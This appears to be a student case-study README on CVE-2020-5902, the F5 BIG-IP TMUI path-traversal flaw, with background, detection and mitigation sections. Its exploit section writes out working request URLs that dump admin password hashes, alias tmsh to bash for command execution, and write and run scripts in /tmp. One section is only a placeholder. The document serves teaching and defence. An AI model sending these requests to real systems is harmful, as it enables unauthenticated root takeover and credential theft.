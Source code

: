 # CVE 2020-5902

![alt text](https://www.zdnet.com/a/hub/i/2020/07/03/b6c96e0e-7da9-461a-adff-d6009723189a/f5-networks.jpg "F5 Networks Logo")

_Presented by: Tharmiga Loganathan, Manavjot Singh, Mili Choksi_

**Vulnerability Highlights:**

CVSS 3.x: 9.8 (Critical)

CVSS 2.0: 10.0 (High)

_The CVE 2020-5902 vulnerability impacted F5 Network's suite of load-balancing software products called BIG-IP last July. It is a code injection attack that can give hackers root level privileges to vulnerable systems! According to Shodan, there were 8,000 exposed devices at one point with an estimated 2,000 of those devices actually vulnerable to this exploit._

> **What is Shodan?**
> At first look, Shodan can be used to search devices connected to the Internet according to different filters. However, in more negative use-cases, it can be used streamline the process of searching for vulnerable devices.
  

## What is BIG-IP?

BIG-IP is a family of software and hardware solutions from F5 Networks. While it originally started out as a load balancer, it has now expanded to offer complimentary services such as traffic management, access control, security and optimization. Load balancers work by providing a virtual IP on behalf of numerous other devices. This is a service that allows large scale applications to seamlessly serve its customers without a bottleneck. 

This exploit is particularly impactful because it can not only impact the load balancing server itself but also any device that is behind the load balancer. 

## CVE Timeline

There has been a rise in the number of vulnerabilities among similar software products around the time this vulnerability came out. The very day the exploit got out, F5 Networks has created many articles, videos, and Q&A sessions designed to help its customers keep their systems safe. But it didn't take long for **many** proof of concept code snippets to pop up on GitHub.

![alt text](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/images/blog/PoC%20scripts%20published%20to%20GitHub.png "GitHub Exploit Code")

Let's dive right into the exploit now!

## The Exploit

This code injection vulnerability impacts the TMUI (configuration utility for the BIG-IP) and can allow unauthenicated users to execute system commands, create or delete files, disable services or execute Java code. The TMUI is a web application that is installed within the device that provides an admin interface. The following is the vulnerable URL:
```
https://[hostname]/tmui/login.jsp
```
The exploit is a "..;" following the above URL. The URL below is an example of an exploitable URL that will return a list of all of the admin users along with their password hashes:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

> **The Three Most Common Exploits**
> 
> Execute Command (only allows for tmsh commands):
> ```
> /tmui/locallb/workspace/tmshCmd.jsp
> ```
> 
> Read Files:
> ```
> /tmui/locallb/workspace/fileRead.jsp
> ```
> 
> Write Files:
> ```
> /tmui/locallb/workspace/fileSave.jsp
> ```

While the above execute command can only access tmsh commands, you can use "create alias" to allow execution of any bash command! "Create alias" can be used to link the tmsh "list" command to the "bash" command. The following is what the command will look like:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

Once the alias is created, more requests can be sent in the same manner in subsequent requests containing any bash commands the user would like to execute, the word "bash" in the command must simply be replaced with "list". 

Alternatively, instead of continually executing one line bash commands, you may want to have a whole script execute. You can save and execute a bash script on the server. First, you can save the script like so:

```
fileSave.jsp?fileName=/tmp/cmd&content=id
```

Second, execute the script like so (remember "list" actually means "bash":

```
tmshCmd.jsp?command=list+/tmp/cmd
```

Finally, in order to delete the alias and clean up:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list
```

## Why This Exploit Works

[content]

## Detecting Exploits 

The following command can be used as a test to see if you are vulnerable. If the exploit works, it means you are vulnerable and it will simply return the version of BIG-IP you are currently running:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/f5-release
```
If you find that you are vulnerable, you may want to also check to check your logs to see if you have been exploited. You may see signs of an exploit by reviewing your logs at `/var/log/audit`. More specifically, based on what we've learned, you may notice a `cmd_data=delete cli alias private list` if a hacker has tried to delete the alias they have created.

You are also likely to find files in `/tmp` created by "tomcat" that have bash commands in them.

## How does this impact me?

Even if you aren't running an F5 BIG-IP device, but have some external link to a javascript library included in your application, your application may also be exposed! If the resource happens to be behind a BIG-IP load balancer that is vulnerable, your application can also be exploited. More on how to prevent this vulnerability later. This highlights the importance of staying on top of cybersecurity news and taking all possible precautions when building your application!

## Mitigation

There is a patch F5 has published, F5 recommends that you update to the latest version. 

However, the number one way to prevent this is to not expose the admin interface of the server to the public in the first place. Best practice instead would be to require a VPN to access the interface. This was actually warned against by F5 multiple times, but people who haven't listened still remain vulnerable.

As mentioned earlier, you may still be vulnerable even if you are not using an F5 server. If your application contains an external link to a Javascript library for example, and _that_ server is behind a BIG-IP, you may still be vulnerable. Again, the number one prevention in this scenario is to use best practices. Best practices when including external libaries would be to use subresource integrity, this is a hash that is added to the script tag. This ensures that the browser checks to make sure the hash matches each time the library is loaded, if the hash doesn't match, the library won't load altogether and you will remain protected. This is an example of what the script tag might look like with the hash:

```
<script src="https://example.com/something.js" integrity="sha384-oqVuAfap76u8xc" crossorigin="anonymous"></script>
```

## Key Takeaways

This case study highlights the importance of staying on top of cybersecurity news and to use best practices when configuring and server and/or building any web application.

## Resources

[CVE 2020-5902 Quick Overview and Impact](https://www.tenable.com/blog/cve-2020-5902-critical-vulnerability-in-f5-big-ip-traffic-management-user-interface-tmui)

[What is BIG-IP](https://devcentral.f5.com/s/articles/what-is-big-ip-24596#:~:text=F5's%20BIG%2DIP%20is%20a,access%20control%2C%20and%20security%20solutions.&text=This%20is%20different%20from%20BIG,F5%20Silverline%2C%20F5's%20SaaS%20platform.) 

[Understanding the Exploit](https://www.youtube.com/watch?v=NmZFwE537Zg&ab_channel=SANSInstitute)

[Protecting Against BIG-IP Vulnerability](https://www.f5.com/services/support/big-ip-vulnerability-cve-2020-5902)

